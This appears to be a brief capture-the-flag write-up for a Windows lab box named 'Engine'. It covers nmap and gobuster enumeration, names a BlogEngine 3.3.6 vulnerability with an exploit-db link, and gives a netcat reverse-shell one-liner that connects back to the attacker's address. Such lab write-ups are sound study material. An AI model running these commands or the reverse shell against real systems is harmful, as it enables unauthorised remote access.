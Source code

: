 ```yaml
---
tags: [Beginner, Video, Windows]
title: Engine
created: '2020-07-07T08:05:38.783Z'
modified: '2020-10-02T17:41:49.297Z'
---
```


# Engine
- IP: `172.31.1.16`
- OS: `Windows`
## Enumeration
### Writeup
We are running BlogEngine 3.3.6 which is vulnerable: https://www.exploit-db.com/exploits/46353
We use that to get a shell
We can upload nc.exe from `/usr/share/windows-resources/binaries/nc.exe`

`start /b nc.exe 10.10.0.8 1234 -e cmd.exe`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.16`
```

```
</details>

<details>
<summary>gobuster</summary>

- `gobuster dir --wordlist /usr/share/wordlists/dirb/big.txt --url http://172.31.1.16/ -o commands/gobuster-80-root`
```
/aspnet_client (Status: 301)
/blog (Status: 200)
```
</details>

<details>
<summary></summary>

- ``
```

```
</details>

